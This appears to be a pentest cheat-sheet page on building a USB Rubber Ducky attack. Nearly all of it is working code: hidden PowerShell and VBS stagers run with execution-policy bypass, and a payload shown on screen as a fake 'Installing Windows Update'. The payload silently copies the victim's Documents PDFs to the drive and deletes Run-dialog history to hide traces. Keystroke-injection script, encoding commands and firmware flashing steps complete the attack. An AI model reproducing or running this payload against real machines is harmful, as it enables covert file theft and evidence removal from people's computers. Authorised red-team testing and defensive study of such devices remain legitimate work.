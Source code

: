 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 9
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}

> **Rubber Ducky Stager**

{% highlight bash %}
REM USB Exfiltration Payload from Hak5 episodes 2112 - 2114
REM Target: Windows XP SP3+ Author: Hak5Darren Props: Diggster, Midnightsnake
DELAY 1000
GUI r
DELAY 100
STRING powershell ".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
ENTER
{% endhighlight %}

> **Encode Using Rubber Ducky Encoder**

{% highlight bash %}
java -jar duckencode.jar -i ../slerp/payload.txt -o inject.bin
./ducktools.py -e -l us ../slerp/payload.txt inject.bin
{% endhighlight %}

> **Flashing Rubber Ducky**

{% highlight bash %}
sudo apt-get install dfu-programmer
sudo dfu-programmer at32uc3b1256 dump
sudo dfu-programmer at32uc3b1256 erase
sudo dfu-programmer at32uc3b1256 flash --supress-bootloader-mem c_duckv2.1.hex
sudo eject /media/dk/_
{% endhighlight %}

{% highlight bash %}
sudo ./ducky-flasher
sudo eject /media/dk/_
{% endhighlight %}

> **Further References** 

Rubber Ducky Encoder:<br>
[https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar](https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar)
[https://github.com/kevthehermit/DuckToolkit](https://github.com/kevthehermit/DuckToolkit)

Create a Rubber Ducky:<br>
[http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick](http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick)
[https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-
stick](https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-stick)

Payloads:<br>
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads)
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload)


[https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky](https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky)
[https://github.com/hak5darren/USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)
[http://usbrubberducky.com/#!index.md](http://usbrubberducky.com/#!index.md)
[https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)
[](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)


